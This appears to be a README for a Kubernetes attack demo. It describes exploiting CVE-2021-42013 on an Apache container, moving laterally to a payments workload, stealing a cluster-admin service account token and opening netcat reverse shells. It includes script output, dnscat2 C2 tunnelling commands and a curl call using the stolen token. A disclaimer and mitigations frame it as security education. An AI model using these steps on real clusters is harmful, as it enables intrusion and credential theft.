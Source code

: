 
## Legal Disclaimer

This project is done for educational and ethical testing purposes only. Attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

## Attack Description

In this scenario, the attacker starts by gaining access to "asset-cache," which may have a vulnerability that the attacker can exploit to gain control of the container. Once the attacker has control of "asset-cache," they then use it as a jumping-off point to try and gain access to "visa-processor."

To do this, the attacker may use exploits or other techniques to move laterally within the network, potentially taking advantage of vulnerabilities in other containers or network components to gain access to additional systems. Once the attacker has gained access to "visa-processor," they may attempt to establish persistence within the network, allowing them to maintain access even if their initial entry point is discovered and blocked.

## Attack Environment

 The "asset-cache" is a web server running a version of Apache with a vulnerability (CVE-2021-42013) and exposed to the internet via Route/ingress, which means it has a weakness that the attacker can exploit to gain access to the system.

Remember that the vulnerability scanner cannot identify the vulnerability because the web server was built from source code, which means it was custom-made rather than downloaded as a pre-made package.

The plan is to use the "asset-cache" as a stepping stone to access a workload called "visa-processor" that is running in the "payments" namespace. 
There is no network segmentation within the cluster, which means that once they gain access to one part of the system, it will be relatively easy for them to move laterally and access other parts of the system.

The "visa-processor" service account within the cluster has cluster-admin privileges. If the attacker has access to a token or credentials that allow them to authenticate with the Kubernetes cluster as the "visa-processor" service account (which has cluster-admin privileges), they would have significant power within the cluster.

With this level of access, the attacker could use a command-line tool called "kubectl" to execute commands on any of the containers running within the cluster. For example, they could use the "kubectl exec" command to execute arbitrary commands on a running container, which could potentially give them access to sensitive information or allow them to modify the behaviour of the container in malicious ways.

Alternatively, the attacker could use "kubectl" to create a new namespace within the cluster, and then deploy their own containers within that namespace. This would allow them to run their own code within the cluster, potentially giving them even greater access and control over the system.

Overall, the level of access provided by the "visa-processor" service account within the Kubernetes cluster represents a significant security risk. Organizations must ensure appropriate security measures are in place to prevent unauthorized access.

### Mitigations

To mitigate the security risks outlined in the previous conversation, I would recommend starting with the following steps:

- Upgrade the software running on the containers, including Apache and any other software that may be vulnerable to attack. Keeping software up-to-date is an essential step in ensuring that known security vulnerabilities are addressed.

- Apply the principle of least privilege to the "visa-processor" service account. Specifically, remove the cluster admin privileges from the service account and only provide it with the permissions that are required for it to perform its intended functions.

- configure the container to listen on a higher port, such as port 8080, so that it does not require root access. Running containers as non-root users is generally considered a best practice for security.

- Apply network policies to enforce network segmentation within the Kubernetes cluster. This can help prevent lateral movement by attackers who gain access to one part of the system.

By following these steps, organizations can reduce the likelihood of a successful attack against their Kubernetes cluster, and limit the damage that an attacker could cause if they were able to gain access to the system. It is important to keep in mind, however, that security is an ongoing process and requires regular attention and maintenance to stay effective.

## Scripts

The scripts are designed to demo a few security use cases, meaning the target are hardcoded ( asset-cache and visa-processor ).

- **attack_001.sh** will use asset-cache as a steping stone to access the visa-processe service account token.

```
Security Demo -> ./attack_001.sh http://asset-cache-frontend.apps.cluster.local/                
☺ - Target asset-cache-84bc5779ff-lsq2n Exploited
☺ - Next Phase: Lateral Movement ...
☺ - Exploiting visa-processor workload ...
☺ - Target visa-processor-6d764fc488-qzjxl Exploited
☺ - Token extracted from visa-processor-6d764fc488-qzjxl
 ☣☣☣ Checking Token Privileges ☣☣☣
☺ - kubernetes.default.svc:443 Access Confirmed from asset-cache-84bc5779ff-lsq2n
☺ - Token with cluster-admin Privileges Confirmed
☣☣☣ Happy Hacking ☣☣☣

Security Demo -> cat token
eyJhbGciOiJSUzI1NiIsImtpZCI6ImNsbXFWcGppX1BQX1NHd....
```

- **attack_002.sh** will use the token extracted from the first attack and run kubectl exec to install netcat and run a reverse shell. Kube API needs to be accessible. 

```
Security Demo -> ./attack_002.sh https://api.ocp.cluster.local:6443                                                                           
☠ - Getting access to pod visa-processor-6d764fc488-qzjxl

WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

Ign:1 http://deb.debian.org/debian stretch InRelease
Hit:2 http://security.debian.org/debian-security stretch/updates InRelease
Hit:3 http://deb.debian.org/debian stretch-updates InRelease
Hit:4 http://deb.debian.org/debian stretch Release
Reading package lists...
Building dependency tree...
Reading state information...
2 packages can be upgraded. Run 'apt list --upgradable' to see them.
Reading package lists...
Building dependency tree...
Reading state information...
netcat is already the newest version (1.10-41).
0 upgraded, 0 newly installed, 0 to remove and 2 not upgraded.
.
.
.
```

- **attack_003.sh** - will use asset-cache as a stepping stone to to install netcat and run a reverse shell without the need to kubectl exec or token :D

```
Security Demo -> ./attack_003.sh http://asset-cache-frontend.apps.cluster.local/                                                              1
PoC CVE-2021-42013 reverse shell Apache 2.4.50 with CGI
Exploiting deployment...
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Transfer-Encoding: chunked
Date: Tue, 07 Mar 2023 07:22:23 GMT


WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

Ign:1 http://deb.debian.org/debian stretch InRelease
Hit:2 http://deb.debian.org/debian stretch-updates InRelease
Hit:3 http://security.debian.org/debian-security stretch/updates InRelease
Hit:4 http://deb.debian.org/debian stretch Release
Reading package lists...
Building dependency tree...
Reading state information...
2 packages can be upgraded. Run 'apt list --upgradable' to see them.
Reading package lists...
Building dependency tree...
Reading state information...
netcat is already the newest version (1.10-41).
0 upgraded, 0 newly installed, 0 to remove and 2 not upgrade
```

## Execute binary fileless - dnscat - TBD

### DNSCAT2

DNSCat2 is a command and control (C&C) tool that allows attackers to communicate with compromised systems over DNS. This tool takes advantage of the fact that many networks allow DNS traffic to pass through their firewalls and other security controls, making it a useful way for attackers to bypass these defenses.

DNSCat2 works by encoding data into DNS queries and responses, which are then sent between the attacker's system and the compromised system. This allows the attacker to issue commands to the compromised system and receive data back from it, without needing to establish a direct connection.

One of the dangers of DNSCat2 is that it can be difficult to detect using traditional security controls, as the DNS traffic used by the tool may be indistinguishable from legitimate DNS traffic. This can allow attackers to maintain a persistent presence on a compromised system without being detected.

Additionally, DNSCat2 can be used in conjunction with other attack tools to carry out more complex attacks. For example, an attacker could use DNSCat2 to establish a foothold on a system, and then use other tools to move laterally within the network and gain access to additional systems.

To protect against attacks that use DNSCat2, it is important to implement strong security controls around DNS traffic. This may include monitoring DNS traffic for signs of suspicious activity, such as large volumes of DNS queries from a single system or unusual DNS query patterns. Additionally, organizations may want to consider blocking DNS traffic to systems that do not require it, or using DNS security tools that can detect and block malicious DNS traffic. Regular vulnerability scanning and patching of systems can also help prevent attackers from exploiting known vulnerabilities in DNS servers and other network components.

### Execution

Tbd..

#once the session is stablished you can create tunnels

Run the server
podman run -p 192.168.150.2:53:53/udp --name dnscat -it --rm -v ./token:/token dnscat2 ruby ./dnscat2.rb --secret=ece3df5051e3eaf5acaf6f7165ca28c6 domain.local

#Exploit the workload and open a session

session -i 1
listen 127.0.0.1:8443 kubernetes.default.svc:443

#To get access to the API
podman exec -ti dnscat /bin/bash -c 'curl -k --header "Authorization: Bearer $(cat /token)" https://localhost:8443/api/v1/namespaces/payments/pods'

